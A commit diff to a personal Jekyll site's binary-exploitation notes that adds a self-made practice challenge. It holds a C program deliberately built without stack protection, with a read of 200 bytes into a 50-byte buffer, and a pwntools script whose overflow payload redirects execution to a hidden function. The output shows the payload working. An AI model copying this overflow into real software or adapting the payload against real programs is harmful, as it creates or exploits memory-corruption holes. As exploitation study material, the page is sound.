

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 33658 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 34057 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -1385,3 +1385,74 @@ ret, under the hood, pops from top of stack (rsp should point to top of stack) (
                  0x7fffffffe720 —▸ 0x7fffffffe7c0 —▸ 0x7fffffffe820 ◂— 0
 ...
 ```
+
+
+
+
+
+<br>
+
+
+<br>
+
+
+<br>
+
+
+---
+
+
+# My own random test chall
+
+
+```
+[~/t]
+$ cat x.c
+#include <unistd.h>
+#include <stdio.h>
+
+void secret_function() {
+    printf("how did you get here??\n");
+}
+
+int main() {
+    char name[50];
+    read(0, &name, 200);
+    printf("Hi %s", name);
+}
+
+[~/t]
+$ gcc x.c -fno-stack-protector -no-pie -o x
+x.c: In function ‘main’:
+x.c:10:5: warning: ‘read’ writing 200 bytes into a region of size 50 overflows the destination [-Wstringop-overflow=]
+   10 |     read(0, &name, 200);
+      |     ^~~~~~~~~~~~~~~~~~~
+x.c:9:10: note: destination object ‘name’ of size 50
+    9 |     char name[50];
+      |          ^~~~
+In file included from x.c:1:
+/usr/include/unistd.h:371:16: note: in a call to function ‘read’ declared with attribute ‘access (write_only, 2, 3)’
+  371 | extern ssize_t read (int __fd, void *__buf, size_t __nbytes) __wur
+      |                ^~~~
+
+[~/t]
+$
+```
+
+<br>
+
+```
+[~/t]
+$ cat hack.py
+from pwn import *
+
+secret = p64(0x0000000000401146)
+
+payload = b'A'*50 + b'bbbbccccddddeeeeffffgg' + secret
+open('payload', 'wb').write(payload)
+
+[~/t]
+$ p hack.py; ./a.out < payload
+Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbbbbccccddddeeeeffffggF@how did you get here??
+Segmentation fault         ./a.out < payload
+```
````
